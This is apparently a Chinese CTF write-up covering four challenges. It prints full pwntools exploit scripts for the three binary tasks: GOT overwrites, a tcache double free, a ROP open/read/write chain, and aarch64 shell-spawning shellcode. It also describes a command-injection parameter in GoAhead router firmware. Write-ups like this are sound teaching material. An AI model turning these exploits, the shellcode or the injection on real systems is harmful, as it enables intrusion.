一共是四道题目的wp：
emarm
ememarm
justcode
blinkblink
后面三个题暂时以word的格式上传，等我有空把博客框架改完了再整理。
题目文件：emarm
通过字符串“password”在IDA中定位到main函数位置，并create function

分析题目逻辑后知道，只要绕过/dev/urandom就可以任意地址写。
这里只比较的n是根据输入调整的，因此我们只输入一个字节的，就只比较最低字节的内容。2^8的爆破强度是能接受的。（看了另一篇wp，说可以直接输入’\0’来绕过strncmp，就不用爆破了）

绕过urandom限制后，有一个天然的任意地址写。
本地调试libc基址是0x4000847000

利用任意地址写将atoi改成printf，通过输入%n$x泄露寄存器或栈上的信息

0x40008676e0 - 0x4000847000 = 0x206e0
泄露远程的值，为0x8506e0。对应远程libc地址为：0x40008506e0 – 0x206e0 = 0x4000830000

泄露脚本：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 from pwn import *context(arch='aarch64' ,log_level='debug' ) while (1 ): try : pr = remote('183.129.189.60' ,10004 ) pr.recvuntil("passwd:" ) pr.sendline('1' ) pr.send('4268064' ) log.warn('success!!!' ) pr.recvuntil("you will success" ) pr.send(p64(0x400c30 )) pr.recvuntil("i leave for you bye" ) pr.send('%9$x' ) res = pr.recv() print res pr.recv() pr.interactive() break except EOFError: pr.close()
利用任意地址写改got表项。
搜索给定libc，存在可用gadget，选最后一个gadget，约束条件较少。

选择fread函数，因为可以控制v8为0。

exp如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 rom pwn import * context(arch='aarch64' ,log_level='debug' ) libc_base = 0x4000830000 exec_addr = libc_base + 0x63e80 while (1 ): try : pr = remote('183.129.189.60' ,10004 ) pr.recvuntil("passwd:" ) pr.sendline('1' ) pr.send('4268128' ) log.warn('success!!!' ) pr.recvuntil("you will success" ) pr.send(p64(exec_addr)) pr.recvuntil("i leave for you bye" ) pr.send('0' ) pr.interactive() break except EOFError: pr.close()
拿到flag如下：

通过多次写，将shellcode写到内存，然后跳转执行
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 from pwn import *context(arch='aarch64' ,log_level='debug' ) sh1 = "\xe1\x45\x8c\xd2\x21\xcd\xad\xf2" sh2 = "\xe1\x65\xce\xf2\x01\x0d\xe0\xf2" sh3 = "\xe1\x8f\x1f\xf8\xe1\x03\x1f\xaa" sh4 = "\xe2\x03\x1f\xaa\xe0\x63\x21\x8b" sh5 = "\xa8\x1b\x80\xd2\xe1\x66\x02\xd4" while (1 ): try : pr = process(['qemu-aarch64' ,'-L' ,'./' ,'emarm' ]) pr.recvuntil("passwd:" ) pr.sendline('1' ) pr.send('4268128' ) log.warn('success!!!' ) pr.recvuntil("you will success" ) pr.send(p64(0x400be4 )) pr.recvuntil("i leave for you bye" ) pr.send('4' ) pr.recv() pr.send(str (0x412080 )) pr.recvuntil("you will success" ) pr.send(sh1) pr.recvuntil("i leave for you bye" ) pr.send('4' ) pr.recv() pr.send(str (0x412088 )) pr.recvuntil("you will success" ) pr.send(sh2) pr.recvuntil("i leave for you bye" ) pr.send('4' ) pr.send(str (0x412090 )) pr.recvuntil("you will success" ) pr.send(sh3) pr.recvuntil("i leave for you bye" ) pr.send('4' ) pr.send(str (0x412098 )) pr.recvuntil("you will success" ) pr.send(sh4) pr.recvuntil("i leave for you bye" ) pr.send('4' ) pr.send(str (0x4120a0 )) pr.recvuntil("you will success" ) pr.send(sh5) pr.recvuntil("i leave for you bye" ) pr.send('4' ) pr.send(str (0x412060 )) pr.recvuntil("you will success" ) pr.send(p64(0x412080 )) pr.recvuntil("i leave for you bye" ) pr.send('4' ) pr.interactive() break except EOFError: pr.kill()
题目文件：ememarm
arm64二进制程序，动态链接，去符号表。
1 2 $ file ememarm ememarm: ELF 64-bit LSB executable, ARM aarch64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-aarch64.so.1, for GNU/Linux 3.7.0, BuildID[sha1]=407173e699ec0b33c41ef419ba897062bcee5626, stripped
got表可写，栈保护开了，开了NX（但用普通qemu-arm起起来的arm程序，这一项并不准确），未开随机化。
1 2 3 4 5 6 7 $ checksec ememarm [*] '/home/bling/ctf-0128/ememarm/ememarm' Arch: aarch64-64-little RELRO: Partial RELRO Stack: Canary found NX: NX enabled PIE: No PIE (0x400000)
程序刚开始的时候，会malloc一个0x20大小的堆块，并让我们输入0x18大小的内容。这个堆块是用作头结点的，后面申请的堆块（note块）都会链接上来。
1 2 3 printf ("hello every one welcom my note ~~%lld\n" , &unk_412070);buf = malloc (0x20 uLL); read(0 , buf, 0x18 uLL);
程序主要是3个功能：
1 2 3 4 5 6 7 __int64 sub_4008E4 () puts ("1. request" ); puts ("2. print" ); puts ("3. edit" ); return puts ("you choice: " ); }
1 2 3 4 5 buf = (char *)malloc (0x20 uLL); puts ("cx:" );read(0 , buf, 8uLL ); puts ("cy:" );read(0 , buf + 8 , 8uLL );
申请0x20大小的堆块，写入两个8字节内容。写完后会让你选择是否delete，这时输入1，会将这个堆块链入头节点或者上一个请求的；输入其他数字默认不会链入。
1 2 3 4 5 puts ("do you want delete?" ); __isoc99_scanf("%d" , &v2); if ( v2 == 1 ) link_it(buf, v7); }
print函数中没有任何有用的信息，至做了参数被写死的puts输出。
这个函数被我用来当做调试的断点，很好用！
edit函数中功能较多，问题也出在这儿。
1 2 3 4 5 if ( (unsigned int )read(0 , v5, 0x18 uLL) == 24 ) *((_BYTE *)v5 + 24 ) = 0 ; free (v5[3 ]);result = (ssize_t )v5; v5[3 ] = 0LL ;
第二行，将v5指向的地址当做BYTE类型，因此在赋值0时，只给最低1个byte置0了，这是一个off by null漏洞。导致后一行free操作并没有free预期的地址，产生了偏移，利用这个可以构造double free。题目给定的libc是有tcache的，这让我们的double free更好利用了。
除了以上这三个功能外，还有一个隐藏功能——surpise()。它存在的目的就是为了让我们可以构造多次double free。因为同一大小的tcache堆块链，只能构造一次double free。
1 2 3 4 5 6 buf = (char *)malloc(0x30uLL); puts("cx:"); read(0, buf, 8uLL); puts("cy:"); read(0, buf + 8, 8uLL); return buf;
通过链表寻找note块，因此可以劫持note块链的走向
double free的同时，实现对next note的劫持。产生一次攻击，两个任意地址写的效果！
由于arm pwn题通常是跑在qemu里的，qemu中默认不会有NX，因此大部分arm pwn都可以使用ret2shellcode的方法。
shellcode植入的地址选择：比较随意，这里以.bss段后的0x412080作为shellcode起始地址。
过程见如下exp
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 from pwn import *context(arch = 'aarch64' ,log_level='debug' ) myelf = ELF('./ememarm' ) pr = process(['qemu-aarch64' ,'-L' ,'./' ,'./ememarm' ]) def request_i (cx,cy,dlt=1 ): pr.recvuntil('you choice:' ) pr.sendline(str (0x1 )) pr.recvuntil('cx:' ) pr.send(cx) pr.recvuntil('cy:' ) pr.send(cy) pr.recvuntil('delete?' ) pr.sendline(str (dlt)) def print_i (index ): pr.recvuntil('you choice:' ) pr.sendline(str (0x2 )) pr.sendline(str (index)) def edit_i (index,content ): pr.recvuntil('you choice:' ) pr.sendline(str (0x3 )) pr.sendline(str (index)) pr.send(content) def suprise_i (cx,cy,dlt=1 ): pr.recvuntil('you choice:' ) pr.sendline(str (0x4 )) pr.recvuntil('cx:' ) pr.send(cx) pr.recvuntil('cy:' ) pr.send(cy) pr.recvuntil('delete?' ) pr.sendline(str (dlt)) shellcode1 = "\xe1\x45\x8c\xd2\x21\xcd\xad\xf2" shellcode2 = "\xe1\x65\xce\xf2\x01\x0d\xe0\xf2" shellcode3 = "\xe1\x8f\x1f\xf8\xe1\x03\x1f\xaa" shellcode3 += "\xe2\x03\x1f\xaa\xe0\x63\x21\x8b" shellcode3 += "\xa8\x1b\x80\xd2\xe1\x66\x02\xd4" scanf_got = myelf.got['__isoc99_scanf' ] init_data = 'blingbling' pr.sendafter("4268144" ,init_data) request_i('1' ,'1' ,1 ) request_i('1' ,'1' ,1 ) request_i('1' ,'\x31' ,1 ) request_i('1' ,'1' ,1 ) request_i('1' ,'1' ,1 ) suprise_i('1' ,'1' ,1 ) edit_i(5 ,'1' *0x18 ) edit_i(4 ,'1' *0x18 ) request_i(p64(0x412080 ),p64(0x0 ),0 ) request_i(p64(0x0 ),p64(0x412090 ),0 ) request_i(shellcode1,shellcode2,0 ) edit_i(4 ,shellcode3) edit_i(1 ,'2' *0x10 ) suprise_i('1' ,'1' ,1 ) suprise_i('1' ,'1' ,1 ) suprise_i('1' ,'1' ,1 ) suprise_i('1' ,'1' ,1 ) suprise_i('1' ,'1' ,1 ) edit_i(5 ,'1' *0x18 ) edit_i(4 ,'1' *0x18 ) suprise_i(p64(scanf_got),p64(0x1 ),0 ) suprise_i(p64(0x0 ),p64(0x0 ),0 ) suprise_i(p64(0x412080 ),p64(0x412080 ),0 ) pr.interactive()
printf的第一个参数(格式化字符串)是一个地址，因此可以利用free(v[3])，将v[3]指向构造的格式化字符串，将free got表项改为printf的，就可以实现printf(v[3])泄露栈中跟libc相关的地址了。
利用printf泄露栈中的libc_start_main函数地址：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 from pwn import *context(arch = 'aarch64' ,log_level='debug' ) myelf = ELF('./ememarm' ) mylibc = ELF('./lib/libc.so.6' ) pr = process(['qemu-aarch64' ,'-L' ,'./' ,'./ememarm' ]) def request_i (cx,cy,dlt=1 ): pr.recvuntil('you choice:' ) pr.sendline(str (0x1 )) pr.recvuntil('cx:' ) pr.send(cx) pr.recvuntil('cy:' ) pr.send(cy) pr.recvuntil('delete?' ) pr.sendline(str (dlt)) def print_i (index ): pr.recvuntil('you choice:' ) pr.sendline(str (0x2 )) pr.sendline(str (index)) def edit_i (index,content ): pr.recvuntil('you choice:' ) pr.sendline(str (0x3 )) pr.sendline(str (index)) pr.send(content) def suprise_i (cx,cy,dlt=1 ): pr.recvuntil('you choice:' ) pr.sendline(str (0x4 )) pr.recvuntil('cx:' ) pr.send(cx) pr.recvuntil('cy:' ) pr.send(cy) pr.recvuntil('delete?' ) pr.sendline(str (dlt)) scanf_got = myelf.got['__isoc99_scanf' ] puts_plt = myelf.plt['puts' ] printf_plt = myelf.plt['printf' ] init_data = '%9$p' pr.sendafter("4268144" ,init_data) request_i('1' ,'1' ,1 ) request_i('1' ,'1' ,1 ) request_i('1' ,'\x31' ,1 ) request_i('1' ,'1' ,1 ) request_i('1' ,'1' ,1 ) suprise_i('1' ,'1' ,1 ) edit_i(5 ,'1' *0x18 ) edit_i(4 ,'1' *0x18 ) request_i(p64(0x412038 ),p64(0 ),0 ) request_i(p64(0x0 ),p64(0x412038 ),0 ) request_i(p64(printf_plt),'\x68' ,0 ) pr.recvuntil('you choice:' ) pr.sendline(str (0x5 )) pr.recvuntil("bye bye bye!!\n" ) pr.recvline() start_addr = pr.recv()[2 :] start_int = int (start_addr,base=16 ) log.warn('libc_start_main+224: {:x}\n' .format (start_int)) pr.interactive()
泄露libc时只能泄露低32位，不过没关系，写会got表时找已经解析过的项，只需要将低32位填回去就可以了
对于tcache而言，double free + three malloc可以达成一次任意地址写任意值。但是由于本题要泄露libc必须更改free的got表项，会导致后续无法再利用double free任意写，也就无法get shell。
但是！本题中还有一个隐藏的不易被发现的任意地址写，那就是申请的note链表的next这个位置。通过错位释放note，再request，可以达到改next指针为目标地址的目的。然后再edit note时，输入的内容就会写入目标地址。
以上两种方式都可以实现任意地址写，但是思考了很久，却始终无法通过线性组合达到get shell的目的。最后采用先free两次，再malloc两次（这个时候已经确定好下次malloc时堆管理器会分配给我的chunk了），利用两次edit（后一次还利用了off by null）实现free_got改为puts_plt并泄露setbuf的got表项从而得到libc的低32位。
分析过程见下图：
exp如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 from pwn import *context(arch = 'aarch64' ,log_level='debug' ) myelf = ELF('./ememarm' ) mylibc = ELF('./lib/libc.so.6' ) pr = process(['qemu-aarch64' ,'-L' ,'./' ,'./ememarm' ]) def request_i (cx,cy,dlt=1 ): pr.recvuntil('you choice:' ) pr.sendline(str (0x1 )) pr.recvuntil('cx:' ) pr.send(cx) pr.recvuntil('cy:' ) pr.send(cy) pr.recvuntil('delete?' ) pr.sendline(str (dlt)) def print_i (index ): pr.recvuntil('you choice:' ) pr.sendline(str (0x2 )) pr.sendline(str (index)) def edit_i (index,content ): pr.recvuntil('you choice:' ) pr.sendline(str (0x3 )) pr.sendline(str (index)) pr.send(content) def suprise_i (cx,cy,dlt=1 ): pr.recvuntil('you choice:' ) pr.sendline(str (0x4 )) pr.recvuntil('cx:' ) pr.send(cx) pr.recvuntil('cy:' ) pr.send(cy) pr.recvuntil('delete?' ) pr.sendline(str (dlt)) scanf_got = myelf.got['__isoc99_scanf' ] puts_plt = myelf.plt['puts' ] init_data = 'blingbling' pr.sendafter("4268144" ,init_data) request_i('1' ,'1' ,1 ) request_i('1' ,'1' ,1 ) request_i('1' ,'\x31' ,1 ) request_i('1' ,'1' ,1 ) request_i('1' ,'1' ,1 ) suprise_i('1' ,'1' ,1 ) edit_i(5 ,'1' *0x18 ) edit_i(4 ,'1' *0x18 ) request_i(p64(0x412000 ),p64(0 ),0 ) request_i(p64(0x0 ),p64(0x412038 ),0 ) edit_i(4 ,p64(puts_plt)) edit_i(3 ,'a' *0x18 ) pr.recvline() addr1 = pr.recvline() setbuf_addr_32 = u32(addr1[:-1 ].ljust(4 ,'\x00' )) base_addr_32 = setbuf_addr_32 - mylibc.symbols['setbuf' ] get_shell_addr = base_addr_32 + 0x63e80 request_i('\x08' ,p32(get_shell_addr),0 ) pr.recvuntil('you choice:' ) pr.sendline(str (0x1 )) pr.interactive()
另一种方法实现两次任意地址写：利用0x20和0x30的链各double free一次，加上错位构造chunk的一次，一共有四次任意地址写任意值的能力。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 from pwn import *context(arch = 'aarch64' ,log_level='debug' ) pr = process(['qemu-aarch64' ,'-L' ,'./' ,'-g' ,'1234' ,'./ememarm' ]) def request_i (cx,cy,dlt=1 ): pr.recvuntil('you choice:' ) pr.sendline(str (0x1 )) pr.recvuntil('cx:' ) pr.send(cx) pr.recvuntil('cy:' ) pr.send(cy) pr.recvuntil('delete?' ) pr.sendline(str (dlt)) def print_i (index ): pr.recvuntil('you choice:' ) pr.sendline(str (0x2 )) pr.sendline(str (index)) def edit_i (index,content ): pr.recvuntil('you choice:' ) pr.sendline(str (0x3 )) pr.sendline(str (index)) pr.send(content) def suprise_i (cx,cy,dlt=1 ): pr.recvuntil('you choice:' ) pr.sendline(str (0x4 )) pr.recvuntil('cx:' ) pr.send(cx) pr.recvuntil('cy:' ) pr.send(cy) pr.recvuntil('delete?' ) pr.sendline(str (dlt)) init_data = 'a' *8 + 'b' *8 + 'c' *8 pr.sendafter("4268144" ,init_data) suprise_i('1' ,'1' ,1 ) request_i('1' ,'1' ,1 ) request_i('1' ,'1' ,1 ) request_i('1' ,'1' ,1 ) request_i('1' ,'1' ,1 ) suprise_i('1' ,'1' ,1 ) request_i('1' ,'1' ,1 ) suprise_i('1' ,'1' ,1 ) request_i('1' ,'1' ,1 ) request_i('1' ,'1' ,1 ) request_i('1' ,'1' ,1 ) request_i('1' ,'1' ,1 ) print_i(1 ) edit_i(11 ,'1' *0x18 ) edit_i(10 ,'2' *0x18 ) suprise_i(p64(0x412078 ),'1' ,1 ) suprise_i('\x78' ,'1' ,0 ) suprise_i("\xe1\x45\x8c\xd2\x21\xcd\xad\xf2" ,"\xe1\x65\xce\xf2\x01\x0d\xe0\xf2" ,0 ) edit_i(5 ,'3' *0x18 ) edit_i(4 ,'3' *0x18 ) request_i(p64(0x412088 ),'1' ,1 ) request_i('\x88' ,'1' ,0 ) request_i("\xe1\x45\x8c\xd2\x21\xcd\xad\xf2" ,"\xe1\x65\xce\xf2\x01\x0d\xe0\xf2" ,0 ) request_i(p64(0x412088 ),'1' ,1 ) request_i('1' *8 ,'1' ,0 ) print_i(1 ) request_i("\xe1\x45\x8c\xd2\x21\xcd\xad\xf2" ,"\xe1\x65\xce\xf2\x01\x0d\xe0\xf2" ,0 ) print_i(1 ) pr.interactive()
题目文件：justcode
本程序在开头做了seccomp的限制，导致无法调用execve系统调用，因此无法get shell，考虑通过open read write将flag读出来。另外，由于程序中没有可写可执行的段，因此利用方式基本确定只能是ROP。

查看反汇编的源码：

这个函数中，read144个字节时由于覆盖到canary会导致进入错误处理函数。

这个函数中scanf使用不正确，导致在栈上取值（v1）做地址写入任意内容。

以上俩函数在main函数中是并行的关系，因此他们的栈会复用。也就是说我们可以控制v1的值，那么就达到了任意地址写。
（1）sub_400c47 –>（2）sub_400cca –> （3）sub_400c47
（1）布置好栈中的数据，控制（2）中需要用到的v1为evil_addr
（2）进入后输入evil_content，达到任意地址写
（3）回到有栈溢出的函数，触发__stack_chk_fail。这里选择__stack_chk_fail是因为，got表项中的其他函数都已经调用过了，存在表项中的地址都是大于32位的，我们无法
ps：由于（2）中v1和%d的限制，在构造evil_addr和evil_content时要注意！

整理下思路：
sub_400c47中布置好栈，控制下一个函数的v1值，我们选__stack_chk_fail的got表项；
sub_400cca scanf时输入gadget地址，达到当调用__stack_chk_fail时去执行我们的gadget；
sub_400c47中栈溢出导致canary检测时出错并进入__stack_chk_fail，即gadget。
1 2 3 4 5 6 7 8 9 10 11 v1 = myelf.got['__stack_chk_fail' ] payload1 = p64(0 ) + p32(0 ) + p32(v1) + 'aaaaaaaabbbbbbbb' pr.recvuntil("name:" ) pr.sendline(payload1) init_gadget = '4198050' pr.recvuntil("id:" ) pr.sendline(init_gadget) pr.recvuntil("info:" ) pr.sendline('oooooooo' )
gadget选择了libc_csu_init的通用gadget
1 2 3 4 5 6 7 8 9 10 11 12 puts_got = myelf.got['puts' ] payload2 = flat([0x400e96 ,0 ,0 ,1 ,puts_got,0 ,0 ,puts_got,0x400e80 ],[0 ,0 ,0 ,0 ,0 ,0 ,0 ,0x400c47 ]) payload3 = payload2 + 'a' *(144 -len (payload2)) pr.recvuntil("name:" ) pr.send(payload3) pr.recvline() pr.recvline() libc_base = u64(pr.recvline()[:-1 ].ljust(8 ,'\x00' )) - mylibc.symbols['puts' ]
布置open，write，“/flag”到一个可写可读的段，这里选择.bss段后任意一个地址
1 2 3 4 5 6 7 8 9 10 11 12 13 read_got = myelf.got['read' ] payload2 = flat([0x400e96 ,0 ,0 ,1 ,read_got,0x40 ,0x6020e0 ,0 ,0x400e80 ],[0 ,0 ,0 ,0 ,0 ,0 ,0 ,0x400c47 ]) payload3 = payload2 + 'a' *(144 -len (payload2)) pr.recvuntil("name:" ) pr.send(payload3) pr.recvline() pr.recvline() open_addr = libc_base + mylibc.symbols['open' ] write_addr = libc_base + mylibc.symbols['write' ] cont1 = flat([open_addr,write_addr,'/flag' ]) pr.send(cont1)
pwn题里0 1 2分别给stdin stdout stderr占据，open返回的fd一般为3，如果不是可以依次往后尝试。
1 2 3 4 5 6 7 8 9 read_got = myelf.got['read' ] payload2 = flat([0x400e96 ,0 ,0 ,1 ,0x6020e0 ,0x0 ,0x0 ,0x6020f0 ,0x400e80 ],[0 ,0 ,0 ,0 ,0 ,0 ,0 ,0x400c47 ]) payload3 = payload2 + 'a' *(144 -len (payload2)) pr.recvuntil("name:" ) pr.send(payload3) pr.recvline() pr.recvline()
用open(“/flag”)返回的fd将flag内容读取到一段可写可读的地址空间，这里依旧选.bss段后的任意一端地址。
1 2 3 4 5 6 7 8 9 read_got = myelf.got['read' ] payload2 = flat([0x400e96 ,0 ,0 ,1 ,read_got,100 ,0x602110 ,3 ,0x400e80 ],[0 ,0 ,0 ,0 ,0 ,0 ,0 ,0x400c47 ]) payload3 = payload2 + 'a' *(144 -len (payload2)) pr.recvuntil("name:" ) pr.send(payload3) pr.recvline() pr.recvline()
将上一步写入到地址空间中flag的内容通过write输出到stdout，这样我们就可以在本地接收到了！
1 2 3 4 5 6 7 8 9 10 11 12 read_got = myelf.got['read' ] payload2 = flat([0x400e96 ,0 ,0 ,1 ,0x6020e8 ,100 ,0x602110 ,1 ,0x400e80 ],[0 ,0 ,0 ,0 ,0 ,0 ,0 ,0x400c47 ]) payload3 = payload2 + 'a' *(144 -len (payload2)) pr.recvuntil("name:" ) pr.send(payload3) pr.recvline() pr.recvline() res = pr.recvline() print res
拿到flag

1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 from pwn import *context(arch='amd64' ,os='linux' ,log_level='debug' ) myelf = ELF('./justcode' ) mylibc = ELF('./libc-2.23.so' ) pr = remote('183.129.189.60' ,10032 ) pr.recvuntil("your code:" ) pr.sendline('1' ) pr.sendline('1' ) pr.sendline('2' ) pr.sendline('1' ) pr.recvuntil("name:" ) pr.sendline() v1 = myelf.got['__stack_chk_fail' ] payload1 = p64(0 ) + p32(0 ) + p32(v1) + 'aaaaaaaabbbbbbbb' pr.recvuntil("name:" ) pr.sendline(payload1) init_gadget = '4198050' pr.recvuntil("id:" ) pr.sendline(init_gadget) pr.recvuntil("info:" ) pr.sendline('oooooooo' ) puts_got = myelf.got['puts' ] payload2 = flat([0x400e96 ,0 ,0 ,1 ,puts_got,0 ,0 ,puts_got,0x400e80 ],[0 ,0 ,0 ,0 ,0 ,0 ,0 ,0x400c47 ]) payload3 = payload2 + 'a' *(144 -len (payload2)) pr.recvuntil("name:" ) pr.send(payload3) pr.recvline() pr.recvline() libc_base = u64(pr.recvline()[:-1 ].ljust(8 ,'\x00' )) - mylibc.symbols['puts' ] read_got = myelf.got['read' ] payload2 = flat([0x400e96 ,0 ,0 ,1 ,read_got,0x40 ,0x6020e0 ,0 ,0x400e80 ],[0 ,0 ,0 ,0 ,0 ,0 ,0 ,0x400c47 ]) payload3 = payload2 + 'a' *(144 -len (payload2)) pr.recvuntil("name:" ) pr.send(payload3) pr.recvline() pr.recvline() open_addr = libc_base + mylibc.symbols['open' ] write_addr = libc_base + mylibc.symbols['write' ] cont1 = flat([open_addr,write_addr,'/flag' ]) pr.send(cont1) read_got = myelf.got['read' ] payload2 = flat([0x400e96 ,0 ,0 ,1 ,0x6020e0 ,0x0 ,0x0 ,0x6020f0 ,0x400e80 ],[0 ,0 ,0 ,0 ,0 ,0 ,0 ,0x400c47 ]) payload3 = payload2 + 'a' *(144 -len (payload2)) pr.recvuntil("name:" ) pr.send(payload3) pr.recvline() pr.recvline() read_got = myelf.got['read' ] payload2 = flat([0x400e96 ,0 ,0 ,1 ,read_got,100 ,0x602110 ,3 ,0x400e80 ],[0 ,0 ,0 ,0 ,0 ,0 ,0 ,0x400c47 ]) payload3 = payload2 + 'a' *(144 -len (payload2)) pr.recvuntil("name:" ) pr.send(payload3) pr.recvline() pr.recvline() read_got = myelf.got['read' ] payload2 = flat([0x400e96 ,0 ,0 ,1 ,0x6020e8 ,100 ,0x602110 ,1 ,0x400e80 ],[0 ,0 ,0 ,0 ,0 ,0 ,0 ,0x400c47 ]) payload3 = payload2 + 'a' *(144 -len (payload2)) pr.recvuntil("name:" ) pr.send(payload3) pr.recvline() pr.recvline() res = pr.recvline() print respr.interactive()
题目文件：blinkblink
nc连上给的ip

浏览器打开

尝试登陆，查看网页文件源码

发现getinfo.js中有url，尝试访问

有返回值

该js中有144个url

下载下来的固件包用binwalk解包，找到了login.asp以及getinfo.js

除了getinfo.js，还在goahead中找到有

goahead是一个嵌入式web服务器：https://www.embedthis.com/goahead/
IDA分析goahead，查找字符串’set_qos_cfg’，找到如下引用

继续查看对该函数的引用

这里的接口比getinfo.js中的要多，发现一个cmd，很可疑：

跟进sub_44d41c

经过查找，bs_SetCmd函数的定义在libshare-0.0.26.so中。该函数将cmd键对应的值直接执行，

尝试访问
